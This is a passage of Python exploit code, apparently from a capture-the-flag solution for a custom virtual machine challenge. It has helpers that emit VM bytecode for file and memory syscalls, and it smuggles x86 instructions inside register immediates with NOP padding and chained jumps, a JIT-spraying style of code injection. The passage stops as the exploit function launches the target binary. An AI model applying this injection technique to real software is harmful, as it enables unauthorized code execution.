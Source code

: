 ```python
def jump(addr, flags):
    buffer = b''
    buffer += write_register(Regs.s, addr)
    buffer += jump_register(Regs.s, flags)
    return buffer


def open_file(file_addr):
    buffer = b''
    buffer += write_register(register=Regs.a, value=file_addr)
    buffer += write_register(register=Regs.b, value=2)  # O_RDWR
    buffer += write_register(register=Regs.c, value=0)  # mode, Irrelevant
    buffer += syscall(Syscalls.OPEN, out_reg=Regs.a)
    return buffer


def read_stdin_to_memory(offset, count):
    return read_to_memory(0, offset, count)


def read_to_memory(fd, offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.READ_MEM, out_reg=Regs.a)
    return buffer


def write_stdout_from_memory(offset, count):
    buffer = b''
    buffer += write_register(Regs.a, value=1)  # stdout
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer


def inc_reg(reg):
    # Note - initially sets Regs.s to 1!
    buffer = b''
    buffer += write_register(Regs.s, 1)
    buffer += instruction(Opcodes.ADD, reg, Regs.s)
    return buffer


def gen_trampoline(addr):
    buffer = jump(addr, Flags.UNCONDITIONAL)
    return buffer


def gen_instruction(instr):
    assert(len(instr) <= 6)
    inst_value = b''
    inst_value += instr + (6 - len(instr)) * b'\x90'
    inst_value += b'\xeb\x09'  # jmp to next instruction (recall mov inst is being injected)

    buffer = write_register(Regs.s, value=struct.unpack('<Q', inst_value)[0])
    return buffer


def exploit():
    p = process(BINARY, close_fds=False)
```